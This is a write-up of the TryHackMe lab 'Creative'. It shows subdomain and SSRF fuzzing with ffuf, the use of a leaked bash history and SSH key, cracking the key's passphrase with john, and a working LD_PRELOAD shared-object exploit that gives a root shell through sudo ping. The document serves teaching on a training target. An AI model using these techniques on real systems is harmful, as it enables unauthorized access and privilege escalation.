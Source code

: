 ```yaml
---
title: "Creative"
date: 2025-02-18
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Creative
categories: [TryHackMe, Easy]
tags: [linux, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Creative</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploit a vulnerable web application and some misconfigurations to gain root privileges.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/creative">https://tryhackme.com/room/creative</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Creative.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.222.5               
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 12:54 EST
  Nmap scan report for 10.10.222.5
  Host is up (0.045s latency).
  Not shown: 65533 filtered tcp ports (no-response)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 116.54 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.222.5
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 12:57 EST
  Nmap scan report for 10.10.222.5
  Host is up (0.044s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
  |   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
  |_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
  80/tcp open  http    nginx 1.18.0 (Ubuntu)
  |_http-title: Did not follow redirect to http://creative.thm
  |_http-server-header: nginx/1.18.0 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 11.71 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

When I accessed the webserver my browser got redirect to the dns name `creative.thm`. I added the name in my `hosts` file an proceed. Because of the hostname, I started with a subdomain enumeration:

```bash
 ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.creative.thm" -u http://10.10.222.5/ -fs 178

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : GET
   :: URL              : http://10.10.222.5/
   :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
   :: Header           : Host: FUZZ.creative.thm
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
   :: Filter           : Response size: 178
  ________________________________________________

  beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 45ms]
```

I found a subdomain which showed an URL Tester:

![URL tester](/assets/img/tryhackme/Creative/thm_creative_1.jpg)

I started with the local website `http://127.0.0.1/` and the website got loaded. This seemed to be a Server-Side Request Forgery (SSRF) vulnerability, so I checked if I were able to reach another internal system on a different port. I used ffuf to fuzz localhost and all ports up to 65535. I created a port list using `seq` as the wordlist for ffuf.

```bash
$ seq 65535 > ports.txt
$ ffuf -w ports.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fs 13

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : POST
   :: URL              : http://beta.creative.thm/
   :: Wordlist         : FUZZ: /home/kali/ctf/creative/ports.txt
   :: Header           : Content-Type: application/x-www-form-urlencoded
   :: Data             : url=http://127.0.0.1:FUZZ
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
   :: Filter           : Response size: 13
  ________________________________________________

  80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 80ms]
  1337                    [Status: 200, Size: 1143, Words: 40, Lines: 39, Duration: 78ms]
```

Ffuf identified an interesting port. I started checking the `1337` which revealed a directory listing from the server:

![Directory browsing](/assets/img/tryhackme/Creative/thm_creative_2.jpg)

Since I had some initial access to the system I enumerated the files and directories for gaining a better access. I found the `.bash_history` in the `/home/saad` directory. The user stored his credentials in a file:
```bash
[...]
sudo -l
echo "saad:[removed]" > creds.txt
rm creds.txt
[...]
```

I tried to use this to connect with SSH, but got an error because of my public key. I searched for `saad's` private key and found it under `/home/saad/.ssh/id_rsa`. After downloading the key I stored it in a file called `id_rsa`. For the SSH connection I needed the password for the key. I used `ssh2john` to retrieve the key hash and stored it in a file. With john and the rockyou.txt wordlist, I was able to crack the password. After that I was able to login with SSH and retrieved the user flag:
```bash
$ nano id_rsa
$ ssh2john id_rsa > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
  Cost 2 (iteration count) is 16 for all loaded hashes
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  [removed]        (id_rsa)     
  1g 0:00:00:10 DONE (2025-02-18 04:23) 0.09124g/s 87.59p/s 87.59c/s 87.59C/s hawaii..sandy
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
$ chmod 600 id_rsa
$ ssh -i id_rsa saad@10.10.246.214

saad@m4lware:~$ cat user.txt
  [removed]
```

## Privilege Escalation root
I started with `sudo -l` because I already found the password and got the following output:
```bash
$ sudo -l
  [sudo] password for saad: 
  Matching Defaults entries for saad on m4lware:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

  User saad may run the following commands on m4lware:
      (root) /usr/bin/ping
```

The tool `ping` itself won't help that much on its own, but in combination with `env_keep+=LD_PRELOAD` it did. First I created a file called shell.c with the following content:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

Then I compiled it as a shared object using `gcc`:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

I was able to specify the `LD_PRELOAD` to point to my shared object, started a ping using `sudo` and became root. From there I was able to retrieve the root flag:
```bash
$ sudo LD_PRELOAD=/home/saad/shell.so /usr/bin/ping
root@m4lware:/home/saad# cd /root
root@m4lware:~# cat root.txt 
  [removed]
```

solved! :)
